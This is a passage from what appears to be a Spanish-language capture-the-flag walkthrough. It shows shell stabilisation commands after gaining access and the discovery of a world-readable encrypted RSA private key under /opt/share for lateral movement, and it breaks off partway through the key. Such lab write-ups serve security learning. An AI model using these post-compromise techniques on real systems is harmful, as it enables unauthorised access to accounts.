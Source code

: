 Vemos que ha funcionado y seremos dicho usuario, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user cromiphi

Si exploramos un poco nos encontraremos con unos archivos interesantes en la carpeta `/opt`.

```shell
cd /opt/share
```

Si listamos veremos lo siguiente:

```
total 16
drwxrwxrwx 2 cromiphi cromiphi 4096 Sep 28  2021 .
drwxrwxrwx 3 root     root     4096 Apr 18  2023 ..
-rwxrwxrwx 1 cromiphi cromiphi 1751 Sep 28  2021 id_rsa
-rwxrwxrwx 1 cromiphi cromiphi  108 Sep 28  2021 note
```

> note.txt

```
Hi,

We have successfully secured some of our most critical protocols ... no more worrying!

Sysadmin
```

> id\_rsa

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,6F30B7B22B088AB2

JmLJqI4m9jk1McrIzNFyuYrPyPu3Znw6awuyEIK0ZctgYabjNk5MVCM0FH45SQCl
rqK3QqSACiOq4+DnMWrECj5CO+JPzGjIupgz8IrW0Cr7mkRSNa9fCeEBrIzAi924
GEM72PMuwlBM4zWDZ/962gtZpDnzXYLc9mYdVTe+ubI2NrVC6d2ak1L5GMsBdYwi
BVj8bhnUsr4doXi1ZcRAZoHUses/Z8ohfNXkUoDO2d1kQmiE0hAVEUnBerzV+E84
GpJFBgHphboG9E+R3Gh27viM3pY0qFvU/PWbTJ8Y6LgSgJPMLldlEuBEym0LPDpc
27L7wdKEYwCjPWBGtuGnKsdfleQfsyKijH8/YDlH0hsrDc83ZMcDR13jtfZbZjHZ
IwVdhUuKdHp6Ig4lmxi1RqJA35CD6ZHHMzOKlm1TjQskA0j6jdPeJ3o5ebh/z3oe
tr3FKEawz+2KQa+CX+frCwN/rLFUc8MOvh7I4/jJ9o2kdKB0u5OHH+pgXfmhTJzl
mVSqOtti7cxefUb142Jltku5kElwKdvVEHw+qmZNMwrw+Kv7rlpvezfsW4uzm8Je
nlmxXoMl62Z3FKPjKarEqZrbO6bHf6lWAIrJgJGydRn1tpD/IY1DJZKwa0aLrkbr
7hu8C0LSpIVdy5ZUSaT04ZL/FBxDQR7cg2/ZYF5Kc1pvIgjXrlEsbbSPDyg2bLIW
eCMRnevvsTS8l55qUvQ2GO73kHMcWfkAsvUaojLiSxXGTcd+gPf6kXiwTbz2wbTR
```